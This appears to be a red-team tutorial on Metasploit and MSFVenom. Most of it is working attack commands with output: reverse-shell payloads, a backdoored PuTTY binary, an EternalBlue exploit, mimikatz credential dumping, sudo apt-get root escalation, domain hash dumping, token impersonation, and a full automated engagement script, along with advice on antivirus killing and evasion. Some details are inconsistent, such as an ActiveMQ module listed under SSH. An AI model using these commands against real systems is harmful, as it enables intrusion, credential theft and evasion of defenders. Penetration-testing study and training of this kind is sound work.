




## Introduction: Metasploit in Modern Red Team Operations

Metasploit Framework (MSF) is often misunderstood as a "point-and-click exploit tool." In reality, it's a **modular exploitation and post-exploitation framework** designed for professional red team operations, penetration testing, and adversary simulation. When used correctly, MSF provides:
- Standardized payload generation & delivery
- Session management & pivoting
- Post-exploitation modules (credential dumping, lateral movement, persistence)
- Integration with external tooling (Cobalt Strike, Sliver, BloodHound, Nmap)
- OPSEC-aware execution paths

This guide dives deep into **MSFVenom payload engineering**, **Metasploit architecture**, **red team workflows**, and **advanced exploitation techniques** with real-world examples, outputs, and decision graphs.

> {: .prompt-tip }
> **Red Team Mindset:** Metasploit is a force multiplier, not a silver bullet. Modern engagements require OPSEC awareness, staged execution, custom payloads, and seamless integration with C2 frameworks. MSF excels at initial access, post-exploitation, and network pivoting.

---

## Metasploit Architecture & Core Components



### Core Components Explained
| Component | Purpose | Red Team Use Case |
|-----------|---------|-------------------|
| `msfconsole` | Interactive CLI for module execution & session management | Primary operator interface |
| `msfvenom` | Standalone payload generator & encoder | Custom payload creation, AV evasion prep |
| `modules/` | Exploit, payload, auxiliary, post, encoder, nop | Modular attack chain building |
| `database` | PostgreSQL backend for host/service/cred tracking | Campaign mapping, credential reuse |
| `sessions` | Active connections (Meterpreter/shell) | Lateral movement, post-exploitation |
| `resource scripts` | Automated msfconsole command sequences | Repeatable engagement workflows |

---

## MSFVenom Deep Dive: Payload Engineering

MSFVenom replaces the legacy `msfpayload` and `msfencode`. It generates, encodes, and formats payloads for delivery across any platform.

### Payload Types: Staged vs Stageless



### Basic Payload Generation

**Windows Staged Reverse TCP:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe -o shell.exe
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

**Linux Stageless Reverse TCP:**
```bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f elf -o rev.elf
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: rev.elf
```

### Encoding & Evasion Preparation

MSFVenom supports encoders to obfuscate payloads. Note: Modern EDRs detect static signatures, not just encoders. Use encoders as part of a broader OPSEC strategy.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 \
  -e x64/xor_dynamic -i 5 -f exe -o encoded.exe
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x64/xor_dynamic
x64/xor_dynamic succeeded with size 412 (iteration=0)
x64/xor_dynamic succeeded with size 412 (iteration=1)
x64/xor_dynamic succeeded with size 412 (iteration=2)
x64/xor_dynamic succeeded with size 412 (iteration=3)
x64/xor_dynamic succeeded with size 412 (iteration=4)
x64/xor_dynamic chosen with final size 412
Payload size: 412 bytes
Final size of exe file: 73802 bytes
Saved as: encoded.exe
```

### Format Conversion & Template Injection

MSFVenom can inject payloads into legitimate binaries to bypass basic AV heuristics.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 \
  -x /usr/share/windows-resources/binaries/putty.exe -f exe -o putty_backdoor.exe
```
**Output:**
```text
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Attempting to inject payload into /usr/share/windows-resources/binaries/putty.exe
Final size of exe file: 1146880 bytes
Saved as: putty_backdoor.exe
```

### Scripting & Automation Formats

**PowerShell:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f psh-reflection -o payload.ps1
```

**Python:**
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw -o payload.py
```

**C# (for SharpGen/Donut integration):**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f csharp -o payload.cs
```

> {: .prompt-tip }
> **OPSEC Note:** `shikata_ga_nai` is heavily signatured. Modern red teams use custom encoders, reflective loading, AMSI/ETW bypasses, and legitimate binary templating. MSFVenom is the starting point, not the end.

---

## Metasploit Red Team Workflow



### Phase Breakdown
| Phase | MSF Modules/Commands | Purpose |
|-------|----------------------|---------|
| **Recon** | `db_nmap`, `auxiliary/scanner/*` | Network mapping, service enumeration |
| **Exploitation** | `exploit/*`, `set RHOSTS/LHOST/PAYLOAD` | Initial access, payload delivery |
| **Post-Exploitation** | `post/windows/*`, `post/linux/*`, `load kiwi` | Credential dumping, enumeration, persistence |
| **Pivoting** | `autoroute`, `socks_proxy`, `portfwd` | Lateral movement, network traversal |
| **Cleanup** | `sessions -K`, `resource cleanup.rc` | OPSEC, session termination, log scrubbing |

---

## Common Red Team Scenarios

### 1. Windows: SMB/WinRM Initial Access

**Exploit Configuration:**
```msf
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.15
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
exploit
```

**Output:**
```text
[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] 10.10.10.15:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.15:445     - Host is likely VULNERABLE to MS17-010!
[*] 10.10.10.15:445 - Connecting to target for exploitation.
[+] 10.10.10.15:445 - Connection established for exploitation.
[+] 10.10.10.15:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.15:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.15:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 10.10.10.15:445 - 0x00000010  30 31 36 20 53 74 61 6e 64 61 72 64 20 31 34 33  016 Standard 143
[*] 10.10.10.15:445 - 0x00000020  39 33 00                                          93.
[+] 10.10.10.15:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.15:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.15:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.15:445 - Starting non-paged pool grooming
[+] 10.10.10.15:445 - Sending SMBv2 buffers
[+] 10.10.10.15:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.15:445 - Sending final SMBv2 buffers.
[*] 10.10.10.15:445 - Sending last fragment of exploit packet!
[*] 10.10.10.15:445 - Receiving response from exploit packet
[+] 10.10.10.15:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.15:445 - Sending egg to corrupted connection.
[*] 10.10.10.15:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.15:49721) at 2024-02-10 10:15:22 -0500
[+] 10.10.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

**Post-Exploitation:**
```msf
meterpreter > sysinfo
Computer        : FILE01
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
  '## v ##'        Vincent LE TOUX             ( vincent.letoux@gmail.com )
   '#####'         > https://pingcastle.com / https://mysmartlogon.com ***/

Success.

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============
Username  Domain   NTLM                              SHA1
--------  ------   ----                              ----
jdoe      CORP     a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6  9c8a12b3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9
asmith    CORP     b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7  8b7a01c2d3e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8

wdigest credentials
===================
Username  Domain   Password
--------  ------   --------
jdoe      CORP     Summer2023!
asmith    CORP     Winter2024!
```

---

### 2. Linux: SSH & Sudo Misconfiguration

**Exploit Configuration:**
```msf
use exploit/linux/ssh/apache_activemq_cve_2023_46604
set RHOSTS 10.10.10.25
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST 10.10.14.5
set LPORT 4445
exploit
```

**Output:**
```text
[*] Started reverse TCP handler on 10.10.14.5:4445 
[*] 10.10.10.25:61616 - Sending stage (3045380 bytes) to 10.10.10.25
[*] Meterpreter session 2 opened (10.10.14.5:4445 -> 10.10.10.25:44112) at 2024-02-10 10:22:15 -0500

meterpreter > sysinfo
Computer     : 10.10.10.25
OS           : Ubuntu 22.04.3 LTS (Linux 5.15.0-91-generic)
Architecture : x64
Meterpreter  : x64/linux

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000 @ web01

meterpreter > shell
Process 4521 created.
Channel 1 created.
$ sudo -l
Matching Defaults entries for www-data on web01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on web01:
    (root) NOPASSWD: /usr/bin/apt-get

$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### 3. Active Directory: Lateral Movement & DCSync

**Pivoting Setup:**
```msf
meterpreter > run autoroute -s 10.10.20.0/24
[*] Adding a route to 10.10.20.0/255.255.255.0...
[+] Added route to 10.10.20.0/255.255.255.0 via 10.10.10.15
[*] Use the -p option to list all active routes

meterpreter > background
[*] Backgrounding session 1...

msf6 exploit(windows/smb/ms17_010_eternalblue) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server on 127.0.0.1:1080
```

**DCSync via MSF:**
```msf
use post/windows/gather/credentials/domain_hashdump
set SESSION 1
run
```
**Output:**
```text
[*] Running module against FILE01
[*] Hashes will be saved to the database if one is connected.
[*] Hashes will be saved in loot in JtR password file format to:
[*] /home/operator/.msf4/loot/20240210103000_default_10.10.10.15_domain_hashes_123456.txt
[*] Dumping password hashes...
[*]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
[*]     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*]     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
[*]     jdoe:1105:aad3b435b51404eeaad3b435b51404ee:a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6:::
[*]     asmith:1106:aad3b435b51404eeaad3b435b51404ee:b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7:::
```

---

## Advanced Techniques & Evasion Concepts

### Staged Delivery & Memory Execution
```msf
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set LPORT 4444
set ExitOnSession false
exploit -j
```
**Output:**
```text
[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
```

### Custom Resource Scripts
```bash
cat > engagement.rc << 'EOF'
workspace -a redteam_01
db_nmap -sV -p 445,3389,5985,80,443 10.10.10.0/24
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.15
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.5
set ExitOnSession false
exploit -j
sleep 5
sessions -i 1
load kiwi
creds_all
run post/windows/gather/enum_domain
run autoroute -s 10.10.20.0/24
background
use auxiliary/server/socks_proxy
set VERSION 5
run
EOF
```
**Execution:**
```bash
msfconsole -r engagement.rc
```

### Meterpreter Extensions & Post Modules
```msf
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
NT AUTHORITY\SYSTEM
CORP\jdoe
CORP\asmith

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK SERVICE

meterpreter > impersonate_token CORP\\asmith
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user CORP\asmith
meterpreter > getuid
Server username: CORP\asmith
```

---

## OPSEC & Red Team Best Practices

| Practice | Why It Matters | MSF Implementation |
|----------|----------------|-------------------|
| **Avoid default ports** | EDR/IDS signatures target 4444/8080 | `set LPORT 8443` |
| **Use staged payloads sparingly** | Network instability breaks staging | Prefer stageless for reliability |
| **Clean up sessions** | Orphaned processes trigger alerts | `sessions -K`, `run post/windows/manage/killav` |
| **Use named pipes over TCP** | Bypasses network monitoring | `set PAYLOAD windows/x64/meterpreter/reverse_named_pipe` |
| **Limit module execution** | Post modules generate telemetry | Run only necessary `post/*` modules |
| **Database hygiene** | Credential leakage in logs | `db_export -f xml engagement.xml`, wipe after |
| **OPSEC-safe modules** | Some modules trigger EDR | Avoid `mimikatz` in production; use `kiwi` carefully |

> {: .prompt-tip }
> **Red Team Reality:** Metasploit is highly detectable by modern EDRs. Use it for initial access validation, post-exploitation on isolated segments, and pivoting. For production engagements, integrate MSF with custom loaders, reflective DLLs, and commercial C2 frameworks.

---

## Attack Decision Tree



---

## References

- [Metasploit Unleashed — Official Guide](https://www.offsec.com/metasploit-unleashed/)
- [MSFVenom Documentation](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- [Metasploit Module Documentation](https://www.rapid7.com/db/modules/)
- [HackTricks — Metasploit & Post-Exploitation](https://book.hacktricks.xyz)
- [Red Team Field Manual — Metasploit Section](https://www.amazon.com/Red-Team-Field-Manual/dp/1494295504)
- [MITRE ATT&CK — Execution & Lateral Movement](https://attack.mitre.org/tactics/TA0002/)
- [Meterpreter API Reference](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
- [OPSEC for Metasploit — SANS Whitepaper](https://www.sans.org/white-papers/)

---

*Last updated: February 10, 2024*
*Author: Security Researcher*
*License: MIT*
